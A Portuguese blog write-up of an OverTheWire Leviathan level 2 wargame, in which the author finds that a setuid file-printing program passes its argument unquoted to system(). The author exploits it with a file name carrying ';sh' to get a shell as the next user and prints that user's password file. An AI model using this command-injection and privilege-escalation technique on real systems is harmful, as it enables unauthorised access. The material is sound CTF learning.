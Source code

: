 ```yaml
---
layout: default
title: Level 2 - Command Injection [OverTheWire CTF – Leviathan]
date: 2016-11-06 18:44
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Leviathan OverTheWire]
---
```

<ul>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-leviathan-write-up">Level 0</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-leviathan-write-up" target="_blank" rel="noopener">Level 1</a></li>
</ul>

E agora é hora do Level 2.

<blockquote>
Obs: como já explico umas merdas básicas nos write-ups dos levels anteriores, vou evitar ficar repetindo para que serve um ltrace e só explicar o que for surgindo de novo.
</blockquote>

Logado no ssh como leviathan2, encontrei o arquivo <strong>printfile</strong> na minha home. Era o alvo da vez.

```leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

O executável faz juz ao nome e, pelo que é descrito, deve imprimir um arquivo na tela. Como em todos os nívels, o arquivo roda com permissões do user acima do meu, ou seja, leviathan3, então é óbvio que tentei fazer com ele lesse o arquivo que continha o password do próximo nível, pois leviathan3 pode, eu não.

```
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Why not? :( Essa porra tava aparentando ser simples demais.

```
leviathan2@melinda:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852d, 2, 0xffffd664, 0x8048600 unfinished ...
access(/etc/leviathan_pass/leviathan3, 4) = -1
puts(You cant have that file...You cant have that file...
) = 27
+++ exited (status 1) +++
```

A função access retorna -1 quando tento ler o pass de leviathan3, com certeza isso não significa coisa boa para o meu lado. Não conhecia a função <strong>access </strong>e o máximo que encontrei foi a <a href="https://linux.die.net/man/2/access" target="_blank" rel="noopener">man page</a>. Mas foi suficiente, a descrição do que ela fazia era simples e direta: checar as permissões reais do usuário que tenta acessar um arquivo.

Logo, o printfile ser executado com permissões de leviathan3 não me permite ler arquivos que pertecem ao mesmo porque a função acess sempre vai detectar que sou leviathan2 e me falar que não posso ter determinado arquivo.

Certo, será preciso enganar esse programa de alguma forma. Primeira coisa que fiz, foi criar um arquivo (no único lugar que o ctf nos dá permissão de escrita, em <strong>/tmp</strong>) e observar o comportamento de printfile quando passo como argumento algo que tenho permissões de acesso.

```
leviathan2@melinda:~$ ltrace ./printfile /tmp/0211/fuck
__libc_start_main(0x804852d, 2, 0xffffd674, 0x8048600 unfinished ...
access(/tmp/0211/fuck, 4) = 0
snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

A função access fica satisfeita e a string que é passada como argumento ganha um trato da função <a href="http://www.br-c.org/doku.php?id=snprintf">snprintf</a>. Então a string que vai para <a href="https://www.vivaolinux.com.br/dica/Usando-funcoes-do-sistema-em-C-com-system">system</a> fica sendo <em>/bin/cat nosso/argumento</em>. (Siga os links para entender sobre o que as funções fazem)

Nessa altura eu perdi algum tempo achando que a falha poderia estar na função access. Depois de algumas tentativas frustradas de tentar explora-la de alguma forma, decidi que ela não era o caminho.

Foi aí que prestei a atenção em <strong>snprintf</strong> e <strong>system</strong>.

```
snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck
```

Descrevendo de forma rústica: o programa, cegamente, pega o argumento, põe após <em>/bin/cat</em> e manda system executar. Vi então uma oportunidade para injetar comandos, afinal, system apenas executará a string e, se o programa não fizer uma validação em busca de um ponto e vírgula, por exemplo, teremos a capacidade de executar outro comando após o <em>/bin/cat</em>.

Decidi testar minha teoria criando um arquivo com o nome <strong>--help</strong>. Como não é uma prática nada comum criar arquivos com caracteres especiais (tipo ; e -), tive a ajuda disso <a href="http://www.tecmint.com/manage-linux-filenames-with-special-characters/">aqui</a> para lembrar de como cria-los.

```
leviathan2@melinda:/tmp/0211$ touch -- --help

leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile --help
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(--help, 4) = 0
snprintf(/bin/cat --help, 511, /bin/cat %s, --help) = 15
system(/bin/cat --helpUsage: /bin/cat [OPTION]... [FILE]...
Concatenate FILE(s), or standard input, to standard output.

-A, --show-all equivalent to -vET
-b, --number-non... cortei os bla bla da mensagem de help do cat
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

<a href="https://www.owasp.org/index.php/Command_Injection">Command injection</a> verificado com sucesso. É possível executar o que se quiser e tudo com privilégios de leviathan3. E o que mais se quer? SHEEEELLLLLL.

```
leviathan2@melinda:/tmp/0211$ touch ';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile ;sh
*** File Printer ***
Usage: ../../home/leviathan2/printfile filename
$ whoami
leviathan2
$
```

Algo saiu errado... Mas é claro que saiu! Por não pôr o ;sh entre aspas simples, ao invés de passar como argumento, acabei executando o comando <em>sh</em> após a execução de printfile.

Hora de tentar novamente (dessa vez com o ltrace para ver se tudo corria bem):

```
leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile ';sh'
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(;sh, 4) = 0
snprintf(/bin/cat ;sh, 511, /bin/cat %s, ;sh) = 12
system(/bin/cat ;sh

bash
bash
```

Ainda nada. Mas não foi dificil para perceber que ;sh agora estava virando argumento de cat e as coisas não saiam como esperado. Então criei um novo arquivo chamado <strong>fuck';sh'. </strong>Assim, cat iria ler o arquivo fuck e em seguida system iria executar sh.

```
leviathan2@melinda:/tmp/0211$ touch fuck';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck fuck;sh leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile fuck';sh'
fuck
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
cXVlcmZsYWc/
```

Esse foi divertido.
